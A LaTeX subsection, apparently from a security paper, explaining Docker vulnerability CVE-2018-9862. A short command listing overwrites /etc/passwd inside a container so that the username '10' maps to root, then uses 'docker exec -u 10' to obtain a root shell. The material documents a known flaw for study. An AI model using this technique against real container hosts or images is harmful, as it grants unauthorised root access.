 \subsection{CVE--2018--9862}
Docker did try to interpret values passed to the \lstinline{--user} argument as a username before trying them as a user id\cite{CVE-2018-9862-Github}. This can be misused using the first entry of \lstinline{/etc/passwd}. This allows malicious images be created with users that grant \lstinline{root} rights when used.

\begin{lstlisting}
(host)$ docker run --rm -ti ... 797fd343ef02 bash
(cont)# echo "10:x:0:0:root:/root:/bin/bash">/etc/passwd
(host)$ docker exec -ti -u 10 hello  bash
(cont)# id
uid=0(10) gid=0(root) groups=0(root)
\end{lstlisting}
